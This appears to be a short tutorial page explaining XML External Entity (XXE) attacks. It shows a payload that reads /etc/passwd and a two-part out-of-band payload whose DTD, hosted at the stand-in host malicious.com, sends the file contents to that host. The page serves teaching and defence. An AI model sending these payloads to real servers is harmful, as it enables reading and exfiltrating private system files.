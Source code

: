 ### Local File Inclusion Example

**HTTP POST Request**

```
<?xml version="1.0" ?>

<!DOCTYPE foo [

<!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "file:///etc/passwd" >

]>

<foo>&xxe;</foo>
```

In this classic example, the attacker is using a general external `ENTITY` declaration named `xxe` to get access to a local file on the server using the `file://` protocol via the inclusion of the `SYSTEM` keyword. In this case, the file being accessed is `/etc/passwd`. Using the entity reference `&xxe;` in the XML body, the reference is expanded with the contents of the file. Depending on the logic of the application, it is possible that the HTTP response is returned to the attacker with the contents of the file. As we can see, the file being accessed has nothing to do with an entity definition, or DTD in general, but the system tries to access this file as requested.

### Server-Side Request Forgery Example

**HTTP POST Request**

```
<?xml version="1.0" ?>

<!DOCTYPE hack [

<!ENTITY % xxe SYSTEM 'http://malicious.com/dtds/xxe.dtd'>

%xxe;

%bravo;

]>

<hack>&charlie;</hack>
```

**xxe.dtd**

```
<!ENTITY % data SYSTEM "file:///etc/passwd">

<!ENTITY % bravo "<!ENTITY charlie SYSTEM 'http://malicious.com/xxe/get?d=%data;'>">
```

In this example, the attacker hosts and controls the remote `xxe.dtd` file, located at `http://malicious.com/dtds/xxe.dtd`. The attacker also controls an endpoint where data can be received, located at `http://malicious.com/xxe/get`, which takes a URL parameter of ‘d’ that has the victim's data assigned to it.

